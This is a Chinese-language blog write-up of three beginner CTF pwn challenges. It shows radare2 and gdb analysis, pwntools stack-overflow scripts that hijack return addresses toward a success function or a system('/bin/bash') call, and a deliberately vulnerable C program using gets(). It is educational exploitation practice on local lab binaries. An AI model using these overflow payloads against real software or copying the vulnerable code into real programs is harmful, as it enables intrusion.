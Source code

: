 ```yaml
---
title: pwn write up
tags: [pwn, thinking]
style: border
color: dark
description: Pwn write up
---
```


### 一些pwn题的writeup  

&emsp;&emsp;pwn题就是好玩,做了几道题，写一波writeUp。  
&emsp;&emsp;点击标题可下载题目。  

![alias](https://github.com/Explainaur/hexo-blog/blob/master/source/pictures/pwn_0.jpeg?raw=true)  

#### [1. crackme0x00](https://github.com/Explainaur/hexo-blog/blob/master/source/file/bin-linux/crackme0x00)

&emsp;&emsp;首先我们把这玩意扔到radare2里，先逆了再说。  
&emsp;&emsp;看了一下main()大概长着个样子：  

![main](https://github.com/Explainaur/hexo-blog/blob/master/source/pictures/pwn_1.png?raw=true)  

&emsp;&emsp;然后下面的分支大概长这个样子：  

![brench](https://github.com/Explainaur/hexo-blog/blob/master/source/pictures/pwn_2.png?raw=true)  

&emsp;&emsp;大概意思就是，假如我输入的字符串等于250382就算我成功了。本身到这里其实题目已经做完了，但是为了实践stackoverflow，我们要用厉害的方法。

&emsp;&emsp;我们可以看到有一个局部变量 **char *s1 @ ebp-0x18** 这说明这个字符串距离栈基址有 **0x18 (24byte)** 这么远.那么此时 **s1** 就距离 **return_address** 有 0x18+4 这么远.这个时候，我们就可以做一些恶心的事情，比如：  

```python 
from pwn import *   

sh = process('./crackme0x00')

payload = 'a'*0x18 + 'bbbb' + p32(0x8048480)

sh.sendline(payload)

sh.interactive()

```

&emsp;&emsp;我们这样构造payload的原因是，我们希望 **return** 的地址是我们想要的指令.我们前面输入了一堆aaa和bbbb这是为啥嘞？24个a为了填充s1与esp的值的间隔，而4个b则是为了恰好覆盖ebp.  
&emsp;&emsp;这样一来，后面的 **p32(0x8048480)** 就恰好存到了return_address的位置，也就起到了我们要的劫持指令的效果。结果长下面这样：  

![result](https://github.com/Explainaur/hexo-blog/blob/master/source/pictures/pwn_3.png?raw=true)  

#### [2. ret2text](https://github.com/Explainaur/hexo-blog/blob/master/source/file/ret2text)  

&emsp;&emsp;这个题稍微有点难度，我们用r2先逆为敬.  
&emsp;&emsp;main()大概长下面这样：  

![main](https://github.com/Explainaur/hexo-blog/blob/master/source/pictures/pwn_4.png?raw=true)  

&emsp;&emsp;我们可以看到里面有 **gets()** 函数，这个东西是坨垃圾，他不限制输入的长度，所以很有可能把缓冲区怼爆，所以我们就想法子日这个函数。  
&emsp;&emsp;我们看到里面有个局部变量 **char \*s @ esp+0x1c** ,gets()函数的值就存在s里面。这个时候我们不禁萌生了一些猥琐的想法。  
&emsp;&emsp;我们接着看其他还有啥函数，毕竟main()里没有好利用的东西，这个时候我们发现了 **sym.secure** 这个函数：  

![sym.secure](https://github.com/Explainaur/hexo-blog/blob/master/source/pictures/pwn_5.png?raw=true)  

&emsp;&emsp;我们仔细看了一下发现，果然里面有见不得人的东西，它调用了 **system("/bin/bash")**,这我们还能说什么，直接跳转到 **0x0804863a** 日了他完事。下面就是愉快的编写payload，我灵机一动发现事情并不简单，这个局部变量并不是基于 **ebp** 的偏移地址，而是基于 **esp** 栈顶指针给出的，不知道他用了什么妖术。这样的话我们只好用gdb动态调试：  

![gdb](https://github.com/Explainaur/hexo-blog/blob/master/source/pictures/pwn_6.png?raw=true)  

&emsp;&emsp;我们在**gets()**那里打上断点，然后看一下寄存器的值：  

```
$esp -> 0xffffd030

$ebp -> 0xffffd0b8

s @ $esp+0x1c -> 0xffffd04c

($ebp - s) -> 0xfffd0b8 - 0xffffd04c = 0x6c

```

&emsp;&emsp;一顿帅气操作我们已经得到了s基于**ebp**的偏移地址，下面我们就愉快的写payload：  

```python
from pwn import *    

sh = process('./ret2text')

target = 0x0804863a  

payload = 'a'*0x6c + 'bbbb' + p32(target)

sh.sendline(payload) 

sh.interactive()     
```

&emsp;&emsp;下面就是我们的结果：  

![result](https://github.com/Explainaur/hexo-blog/blob/master/source/pictures/pwn_7.png?raw=true)  

#### [3. babyPwn](https://github.com/Explainaur/hexo-blog/blob/master/source/file/1)  

&emsp;&emsp;这个题就比较简单了，程序也是我自己写的，下面是源码：  

```c
#include <stdio.h>   
#include <string.h>  

void success() { 
    puts("You Hava already controlled it."); 
}

void vulnerable() {
    char s[12];        
    gets(s);           
    puts(s);           
    return;            
}
 
int main(int argc, char **argv) {
    vulnerable();
    return 0;          
}
```
&emsp;&emsp;直接逆,main()和sym.vulnerable()大概下面这样：  

![main&vulnerable](https://github.com/Explainaur/hexo-blog/blob/master/source/pictures/pwn_8.png?raw=true)  

&emsp;&emsp;这个逻辑也比较简单，我们看main()里面好像啥也没有，接着看**vulnerable()**里面又出现了gets()这种东西，好了怼他，我们看到这个局部变量**char s @ ebp-0x14**中规中矩，给的也是基于 **ebp** 的偏移地址。  
&emsp;&emsp;接着我们看一看别的函数，里面有个醒目的 **sym.success** 是结果没跑了，一看长这样：  

![sym.success](https://github.com/Explainaur/hexo-blog/blob/master/source/pictures/pwn_9.png?raw=true)  

&emsp;&emsp;那我们就直接把success()的地址放在vulnerable()的返回值那里，让他直接跳转，思路清晰，下面愉快的写payload：  


```python
from pwn import *

sh = process('./1')

success_addr = 0x08049172

payload = 'a' * 20 + 'bbbb' + p32(success_addr)

print p32(success_addr)
sh.sendline(payload)

sh.interactive()
```

&emsp;&emsp;然后结果就长这个样子：  

![result](https://github.com/Explainaur/hexo-blog/blob/master/source/pictures/pwn_10.png?raw=true)  

---  
### 总结  

&emsp;&emsp;总之，我认为pwn是入侵的最高境界，是一种暴力美学，如果说web能拿到一些主机的权限，那么pwn能拿到世界上所有主机的权限。  
&emsp;&emsp;漏洞的利用千奇百怪，绝不要被教条束缚了头脑，始终忘不了第一次见到如此简洁的shellcode时的惊讶。二进制就像魔法，我就是寻求刺激的魔法师。
&emsp;&emsp;以上三道题目是入门题，我要走的路还很长。






















